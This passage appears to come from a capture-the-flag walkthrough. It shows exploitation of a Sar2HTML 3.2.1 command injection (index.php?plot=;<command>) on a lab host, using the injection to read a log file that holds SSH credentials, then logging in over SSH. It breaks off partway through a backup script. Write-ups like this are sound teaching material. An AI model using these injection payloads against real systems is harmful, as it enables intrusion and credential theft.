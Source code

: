 7. `sar2html`
	1. `searchsploit sar2html` to get `Sar2HTML 3.2.1 - Remote Command Execution | php/webapps/47204.txt`
	2. `cat /usr/share/exploitdb/exploits/php/webapps/47204.txt`:
		```
		In web application you will see index.php?plot url extension.

		http://<ipaddr>/index.php?plot=;<command-here> will execute 
		the command you entered. After command injection press "select # host" then your command's 
		output will appear bottom side of the scroll screen.
		```
	3. Test command injection: 
		* `http://10.10.30.252/joomla/_test/index.php?plot=;ls` and click the first dropdown. Output is in the dropdown.
			![Screenshot-20200508193736-438x299.png](./b2b175129bd84358a1d926b29347d587.png)

		* The test file looks interesting: `http://10.10.30.252/joomla/_test/index.php?plot=;cat log.txt`
			![Screenshot-20200508193755-1019x430.png](./e35ae208a465497d9a16f0c49006e7fd.png)
			Result: Got credentials for SSH `basterd:superduperp@$$`
			**The interesting file name in the folder?** `log.txt`
8. SSH
	1. `ssh basterd@10.10.30.252 -p 55007` with password `superduperp@$$` is successful.
	2. Switch to tty: `SHELL=/bin/bash script -q /dev/null`
	3. `ls -la` finds `backup.sh` which contains:
		```
		REMOTE=1.2.3.4

